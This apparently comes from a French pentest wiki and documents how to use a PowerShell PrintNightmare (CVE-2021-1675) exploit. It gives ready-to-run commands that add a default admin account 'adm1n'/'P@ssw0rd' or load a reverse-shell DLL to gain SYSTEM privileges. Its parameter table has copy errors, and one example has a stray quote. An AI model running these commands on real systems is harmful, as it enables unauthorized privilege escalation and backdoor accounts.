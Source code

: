 ```yaml
---
title: PrintNightmare
description: Version PowerShell de l'exploit. Qui permet à n'importe quel utilisateur sans le privilège, d'ajouter des drivers d'impression à un système, et par conséquent d'exécuter du code en tant que NT AUTHORITY\SYSTEM.
published: true
date: 2024-08-23T14:35:26.596Z
tags: outil, windows, powershell
editor: markdown
dateCreated: 2024-08-23T14:32:14.312Z
---
```


# Introduction

Version PowerShell de l'exploit. Utilisant une faille dans la fonction RpcAddPrinterDriver,qui permet à n'importe quel utilisateur sans le privilège, d'ajouter des drivers d'impression à un système, et par conséquent d'exécuter du code en tant que NT AUTHORITY\SYSTEM.

> La fonction RpcAddPrinterDriver permet aux utilisateurs avec le privilège SeLoadDriverPrivilege d'ajouter des drivers sur des spouleurs distants.
> {.is-info}

> La version PowerShell de PrintNightmare est disponible au téléchargement [ici](https://leo-mathy.fr)
> {.is-info}

# Syntaxe

`Import-Module .\cve-2021-1675.ps1`
`Invoke-Nightmare [paramètres]`

# Paramètres

| Paramètre                                      | Description                                                           |
| ---------------------------------------------- | --------------------------------------------------------------------- |
| `-DriverName <nom du driver à ajouter>`        | Spécifie le nom du driver (par défaut:"Totally Not Malicious").       |
| `-NewUser <nom de l'utilisateur>`              | Spécifie le nom du driver (par défaut:"adm1n").                       |
| `-NewPassword <mot de passe de l'utilisateur>` | Spécifie le nom du driver (par défaut:"P@ssw0rd").                    |
| `-DLL <chemin absolu du DLL>`                  | Spécifie le DLL à ajouter (non compatible avec les autres paramètres) |

# Exemples

Lancement avec un DLL personnalisé.
`Invoke-Nightmare -DLL "C:\temp\rshell.dll"`

Lancement avec mot de passe par "t00r_secure".
`Invoke-Nightmare -NewPassword "t00r_secure""`

# Voir aussi

le DLL par défaut utilisé pour ajouter un utilisateur:
https://github.com/calebstewart/CVE-2021-1675/blob/main/nightmare-dll/nightmare/dllmain.cpp

